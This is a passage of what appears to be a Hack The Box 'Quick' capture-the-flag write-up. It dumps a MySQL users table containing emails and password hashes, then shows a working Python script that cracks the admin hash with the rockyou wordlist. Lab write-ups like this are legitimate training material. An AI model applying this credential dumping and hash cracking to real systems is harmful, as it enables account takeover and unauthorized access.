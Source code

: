 **Tables in `quick`:**

```sql
use quick;
show tables;
+--------+
| Tables |
+--------+
| jobs   |
| tickets|
| users  |
+--------+
```

**Jobs table:**

```sql
describe jobs;
+-------+--------------+------+-----+---------+-------+
| Field | Type         | Null | Key | Default | Extra |
+-------+--------------+------+-----+---------+-------+
| title | varchar(100) | YES  |     | NULL    |       |
| ip    | varchar(100) | YES  |     | NULL    |       |
| port  | varchar(100) | YES  |     | NULL    |       |
+-------+--------------+------+-----+---------+-------+
```

**Tickets table:**

```sql
describe tickets;
+-------------+---------------+------+-----+---------+-------+
| Field       | Type          | Null | Key | Default | Extra |
+-------------+---------------+------+-----+---------+-------+
| id          | varchar(100)  | YES  |     | NULL    |       |
| title       | varchar(100)  | YES  |     | NULL    |       |
| description | varchar(1000) | YES  |     | NULL    |       |
| status      | varchar(100)  | YES  |     | NULL    |       |
+-------------+---------------+------+-----+---------+-------+
```

**Users table:**

```sql
select * from users;
+--------------+------------------+----------------------------------+
| name         | email            | password                         |
+--------------+------------------+----------------------------------+
| Elisa        | elisa@wink.co.uk | c6c35ae1f3cb19438e0199cfa72a9d9d |
| Server Admin | srvadm@quick.htb | e626d51f8fbfd1124fdea88396c35d05 |
+--------------+------------------+----------------------------------+
```

* Password hash for `Server Admin` cracked using Python:

```python
#!/usr/bin/python3
import hashlib, crypt

with open("rockyou.txt","r", encoding="latin-1") as file:
    for line in file:
        newhash = hashlib.md5(crypt.crypt(line.strip(),'fa').encode()).hexdigest()
        if newhash == 'e626d51f8fbfd1124fdea88396c35d05':
            print('Password cracked:', line.strip())
            break
```
